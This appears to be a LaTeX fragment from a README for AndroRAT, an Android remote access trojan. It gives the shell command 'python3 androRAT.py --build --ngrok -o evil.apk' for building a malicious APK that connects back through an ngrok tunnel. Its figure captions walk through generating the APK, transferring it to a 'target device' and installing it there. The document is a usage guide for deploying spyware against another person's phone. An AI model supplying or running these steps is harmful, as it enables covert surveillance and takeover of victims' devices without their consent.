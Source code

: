 \documentclass[12pt]{article}
\begin{document}
\textbf{Example Usage for Build Mode}:
\begin{lstlisting}[style=shell]
python3 androRAT.py --build --ngrok -o evil.apk
\end{lstlisting}
\begin{figure}[h!]
  \centering
  \includegraphics[width=0.6\linewidth]{buildAPK.png}
  \caption{Building the AndroRAT APK}
\end{figure}
\begin{figure}[h!]
  \centering
  \includegraphics[width=0.6\linewidth]{apkInFile.png}
  \caption{APK file generated}
\end{figure}
\begin{figure}[h!]
  \centering
  \includegraphics[width=0.6\linewidth]{apkTransfered.png}
  \caption{Transferring APK to target device}
\end{figure}
\begin{figure}[h!]
  \centering
  \includegraphics[width=0.6\linewidth]{APKinstalled.png}
  \caption{Installing the APK on target device}
\end{figure}
\end{document}
